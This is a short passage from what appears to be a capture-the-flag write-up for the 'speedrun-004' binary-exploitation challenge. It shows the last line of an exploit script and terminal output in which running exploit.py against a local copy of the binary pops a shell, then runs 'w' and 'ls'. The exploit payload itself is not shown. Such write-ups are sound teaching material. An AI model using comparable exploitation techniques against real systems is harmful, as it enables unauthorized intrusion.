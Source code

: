 ```

target.interactive()
```

After we run it a few times:
```
$ python exploit.py
[+] Starting local process './speedrun-004': pid 10089
w
[*] Switching to interactive mode
i think i'm getting better at this coding thing.
how much do you have to say?
Ok, what do you have to say for yourself?
Interesting thought "\x16\x04@", I'll take it into consideration.
$ w
 23:23:24 up  2:45,  1 user,  load average: 0.84, 0.83, 1.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               20:38   ?xdm?  10:57   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --session=ubuntu
$ ls
core  exploit.py  readme.md  speedrun-004
[*] Got EOF while reading in interactive
```

Just like that, we got a shell!